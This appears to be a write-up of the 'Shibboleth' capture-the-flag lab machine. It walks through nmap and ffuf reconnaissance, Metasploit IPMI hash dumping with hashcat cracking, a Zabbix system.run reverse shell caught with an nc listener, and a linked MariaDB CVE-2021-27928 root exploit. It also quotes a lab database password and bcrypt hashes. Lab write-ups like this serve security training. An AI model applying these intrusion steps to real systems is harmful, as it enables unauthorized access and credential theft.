

### Scanning and Enumeration of Open Ports (Using Nmap)

##### Nmap

Nmap (or network mapper) is a open source tool for Network exploitation and security analysis. Using Nmap, you can scan
one or several hosts for different services running on different ports.
For installing and more info on Nmap , use

```noLineNumbers
sudo apt install nmap
man nmap
```

##### Service Scanning

```noLineNumbers
nmap -Pn -sV -sC 10.10.11.124
```

-sV: Probe open ports to determine service/version info

-sC: equivalent to --script=default

-Pn: Treat all hosts as online -- skip host discovery

```
➜  Shibboleth git:(master) ✗ nmap -Pn -sV -sC 10.10.11.124  

Starting Nmap 7.60 ( https://nmap.org ) at 2022-03-31 12:25 IST
Nmap scan report for 10.10.11.124
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.45 seconds

```

We can see a Http server running on Port 80

### Checking on port 80:

We got the site url : ```shibboleth.htb```

Open ```/etc/hosts``` file and add ```10.10.11.124    shibboleth.htb```
```
sudo nano /etc/hosts
```

Nothing seems interesting on the website.Lets do a subdomain fuzz using ```ffuf```.I used the following [wordlist.](https://github.com/danielmiessler/SecLists)

```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://shibboleth.htb/ -H "Host:http://FUZZ.shibboleth.htb" -mc all -fc 404,400

```

Yep, found some subdomains ```zabbix,monitor and monitoring```. All redirected to the same page.


Open ```/etc/hosts``` file and add ```10.10.11.124    zabbix.shibboleth.htb```
```
sudo nano /etc/hosts
```

We now need credentials to login to the Shibboleth Database system.

Searched for vulnerabilities in Zabbix Login System, and found a whole of list like Login Bypass by SQL Injection,XSS,CSRF,and RCE... but none of the exploit worked.

Time to take a step back and search if any other port is open or not.

#### UDP Port Scan

```
➜  Shibboleth git:(master) ✗ nmap -sU -10.10.11.124  

Starting Nmap 7.60 ( https://nmap.org ) at 2022-03-31 12:25 IST
Nmap scan report for 10.10.11.124

PORT    STATE SERVICE
623/udp open  asf-rmcp

Nmap done: 1 IP address (1 host up) scanned in 1087.30 seconds
```

Yep found port 623 open. Searched about asf-rmcp vulnerabilities and found https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/

#### BMC and IPMI 

```Interface (IPMI)``` is a collection of specifications that define communication protocols for talking both across a local bus as well as the network. 

```Baseboard Management Controllers (BMCs)``` are a type of embedded computer used to provide out-of-band monitoring for desktops and servers.

Used ```Metasploit Framework``` to know more about the version of IPMI used and also to exploit it.



```Got IPMI Version 2```

#### IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval

We will use msf ```ipmi_dumphashes``` module for this purpose.Executed successfully and we got password hash for one of the users.

```
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:f6864526820100009a6cd71bb3529d6a06f44fc52d0a21a97d0792f03f078cff1c359fdb06288e05a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:9f84180a4ecbb98bc1e9c0c53f

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

HASH is IPMI 2.0 RAKP (RMCP ) HMAC-SHA1 
```

Note: The above hash is not the correct one. I have removed some characters to avoid copying of hashes.

#### Hashcat to retrieve password from the hash

I used hashcat and ```rockyou.txt``` to obtain the password from obtained hash.

```
➜  Shibolleth git:(master) ✗ hashcat -a 0 -m 7300 hash.txt /opt/SecLists/rockyou.txt --force
- Device #1: autotuned kernel-loops to 1
1a1bffea82050000c454896fcbe7c362583e207fce037776091d6737151558e2d5c0b70b4862a650a123456789abcdefa123456789abcdef140d41646d696
e6973747261746f72:323edde62b2c35663eef:**retrieved password here**
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Type........: IPMI2 RAKP HMAC-SHA1
Hash.Target......: 1a1bffea82050000c454896fcbe7c362583e207fce037776091...663eef
Time.Started.....: Fri Apr  1 22:10:33 2022 (5 secs)
Time.Estimated...: Fri Apr  1 22:10:38 2022 (0 secs)
Guess.Base.......: File (/opt/SecLists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:  1439.6 kH/s (5.01ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 7397376/14344384 (51.57%)
Rejected.........: 0/7397376 (0.00%)
Restore.Point....: 7389184/14344384 (51.51%)
Candidates.#1....: ilovetj26 -> ilovemymum55
HWMon.Dev.#1.....: N/A

```

Yeah finally we got the credentials and we successfully logged in to the Shibboleth  Data System.


#### Zabbix 5.0 RCE Vulnerability Exploitation (Reverse Shell)

After logging, we have a nice dashboard. Now time to read about Zabbix. So Zabbix is basically an enterprise-class open source distributed monitoring solution. I tried searching reverse shell through Zabbix dashboard.
After some research about different types of vulnerabilities in different version of Zabbix , I came up here(https://packetstormsecurity.com/files/166256/Zabbix-5.0.17-Remote-Code-Execution.html).

So, a native Zabbix agent, developed in C language, may run on various supported platforms, including Linux, UNIX, and Windows, and collect data such as CPU, memory, disk, and network interface usage from a device. Reading the manual and roaming around the dashboard I got the Zabbix agent.

```Zabbbix agent```contains a key field that has an option “system.run” which is used to execute specified commands on hosts.

Ran the above script .What does this script essentialy do is ,it takes username , password for the zabbix database system and send a reverse shell to the local ip on a specified port.


This script set the key field is ```items.php``` to system.run($command to exexute$). So we put command of reverse shell and start a listener on the specified port.


On local machine ,run 
```
nc -nlvp <port number>
```

And yay! we received the reverse shell.

#### USER OWN

We found user ```ipmi-svc``` and it had the same credentials we got from hashcat for logging into the zabbix Systems.

```
su ipmi-svc
```

and we got the user flag.

#### System Own

Ran ```Linpeas``` to enumerate about the system and found port ```3306``` running.

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:10050           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:10051           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::10050                :::*                    LISTEN      -                   
tcp6       0      0 :::10051                :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -        
```

We also find MYSQL (MariaDB) credentials.

```

╔══════════╣ Analyzing Zabbix Files (limit 70)
-rw-r----- 1 root ipmi-svc 21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
Timeout=4
AlertScriptsPath=/usr/lib/zabbix/alertscripts
ExternalScripts=/usr/lib/zabbix/externalscripts
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000
StatsAllowedIP=127.0.0.1
```

Logged in the Mysql Database

```
mysql -u zabbix -pbloooarskybluh -h 127.0.0.1 zabbix
```

and found so many table(```users``` table is the one I found interesting).

```
select * from users;
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+-------------+---------------+---------------+
| userid | alias         | name         | surname       | passwd                                                       | url | autologin | autologout | lang  | refresh | type | theme      | attempt_failed | attempt_ip  | attempt_clock | rows_per_page |
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+-------------+---------------+---------------+
|      1 | Admin         | Zabbix       | Administrator | $2y$10$L9tjKByfruByB.BaTQJz/epcbDQta4uRM/KySxSZTwZkMGuKTPPT2 |     |         0 | 0          | en_GB | 60s     |    3 | dark-theme |              5 | 10.10.17.97 |    1648879891 |            50 |
|      2 | guest         |              |               | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |     |         0 | 15m        | en_GB | 30s     |    1 | default    |              0 |             |             0 |            50 |
|      3 | Administrator | IPMI Service | Account       | $2y$10$FhkN5OCLQjs3d6C.KtQgdeCc485jKBWPW4igFVEgtIP3jneaN7GQe |     |         0 | 0          | en_GB | 60s     |    2 | default    |              5 | 10.10.17.97 |    1648879896 |            50 |
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+-------------+---------------+---------------+
```

Tried to decrypt the hashed password but in vain. Got no successful results.

#### MariaDB CVE-2021-27928 vulnerabiltity

A remote code execution issue was discovered in MariaDB . An untrusted search path leads to eval injection, in which a 
database SUPER user can execute OS commands after modifying wsrep_provider and wsrep_notify_cmd.

Used the exploit here(https://github.com/Al1ex/CVE-2021-27928).

and yay got the root access.